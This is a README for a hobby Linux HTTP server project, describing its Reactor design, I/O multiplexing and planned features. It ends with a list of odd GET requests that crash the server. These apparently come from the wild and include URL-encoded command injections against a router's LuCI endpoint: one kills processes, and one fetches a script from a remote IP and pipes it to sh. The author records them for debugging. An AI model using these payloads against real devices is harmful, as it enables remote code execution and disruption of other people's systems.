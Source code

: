 # MyWeb

本项目开发了一个基于Linux平台的轻量级HTTP服务器
* 采用了Reactor高并发模型
* 支持Select、Poll、Epoll三种IO复用方式
* 服务器通过状态机解析HTTP请求报文
* 使用自动增长的缓冲区来提升性能稳定性
* 通过WebBench对服务器进行了性能和压力测试，确保了其稳定性和可靠性。

计划：
* 引入MySQL，实现一个注册登录界面
* 处理POST请求
* 定时器
* 日志系统
* 实现Proactor模型
* 消息队列
* 分布式

奇怪的get请求，接收到以后，服务器就会挂，慢慢解决
* GET /.env HTTP/1.0
* GET /portal/redlion HTTP/1.0
* GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=id%3E%60for+pid+in+%2Fproc%2F%5B0-9%5D%2A%2F%3B+do+pid%3D%24%7Bpid%25%2F%7D%3B+pid%3D%24%7Bpid%23%23%2A%2F%7D%3B+exe_path%3D%24%28ls+-l+%2Fproc%2F%24pid%2Fexe+2%3E%2Fdev%2Fnull+%7C+awk+%27%7Bprint+%24NF%7D%27%29%3B+if+%5B%5B+%24exe_path+%3D%3D+%2A%2F+%5D%5D%3B+then+kill+-9+%24pid%3B+fi%3B+done%3B%60 HTTP/1.0
* GET http://www.ys168.com/?0.301155930654163458905783120 HTTP/1.1
* GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60wget+-O-+http%3A%2F%2F154.216.17.31%2Ft%7Csh%3B%60) HTTP/1.0
